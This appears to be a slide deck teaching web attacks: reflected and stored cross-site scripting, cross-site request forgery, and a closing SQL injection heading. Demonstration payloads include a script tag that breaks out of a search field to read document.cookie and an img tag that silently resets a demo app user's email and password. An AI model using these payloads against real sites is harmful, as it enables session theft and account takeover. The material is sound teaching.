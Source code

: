 
### _XSS_

Cross-Site Scripting

---

![](https://draftin.com:443/images/13940?token=jr2JAaF8HM7ldkppTozf9D1Fkzf-v4Z8qb3FSzRNY_e381Kyg_a8WYzaRMQi9BX3-RylTUhEgGhnJlxG8Bm-8ZM) 

`<input type="search" name="q" value="harper">`

---

![filling the input with "><script>alert(document.cookie)</script><input type="hidden](https://draftin.com:443/images/13926?token=Sugaumukx2qw8mYo79sso0QFOw5TWFghtiaT3He95x42eGEdtpSeCxfFWZTDrGDLE3iSogsMqDAPKrV-L1HsCng)

---

`<input type="search" name="q" value="`
_`"><script>alert(document.cookie)</script><input type="hidden`_
`">`

---

X-Xss-Protection: _0_

---

Making it last

---

![In a comment on catmeanings.herokuapp.com, "This cat is definitely about drugs. <script>alert('hello')</script>"](https://draftin.com:443/images/13934?token=Zdomtu18oKcPrv031DCBtGKFCeoaBLdApUxCWgcOPVOq_J5KOm2-FtZMWu83P_gPoWogsBJ_0eYVXku6lBuZlVE)

---

Caught with my hand in the [Catnip Jar](http://catnip-jar.herokuapp.com/)

---

## XSRF/CSRF

Cross-Site _Request Forgery_

---

![](https://draftin.com:443/images/13938?token=oYvfzm5cA0RGbcqKu1bqxKh-TC8d-Yok4Z5Yvz5Geqv9lCpl1AAlRLzHqM_ROispeo4PrY0ogZnggJGFcbHBb_U) 

`<form action="/users/dumb_update" method="get">`

---

`<img src="http://catmeanings.herokuapp.com/users/dumb_update?user[email]=lol%40lol.lol&user[password]=p0wned&user[password_confirmation]=p0wned" />`

---

SQL Injection

---
